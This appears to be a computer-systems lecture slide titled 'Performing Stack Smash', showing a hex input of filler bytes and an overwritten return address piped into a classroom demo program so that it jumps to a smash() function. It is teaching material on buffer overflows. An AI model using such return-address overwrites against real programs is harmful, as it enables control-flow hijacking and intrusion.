

# Performing Stack Smash
linux> cat smash-hex.txt
30 31 32 33 34 35 36 37 38 39 30 31 32 33 34 35 36 37 38 39 30 31 32 33 c8 06 40 00 00 00 00 00
linux> cat smash-hex.txt | ./hexify | ./bufdemo-nsp
Type a string:012345678901234567890123?@
I've been smashed!
Put hex sequence in file smash-hex.txt
Use hexify program to convert hex digits to characters
Some of them are non-printing
Provide as input to vulnerable program
void smash() {
  printf("I've been smashed!\n");
  exit(0);
}
30 31 32 33 34 35 36 37 38 39 30 31 32 33 34 35 36 37 38 39 30 31 32 33 c8 06 40 00 00 00 00 00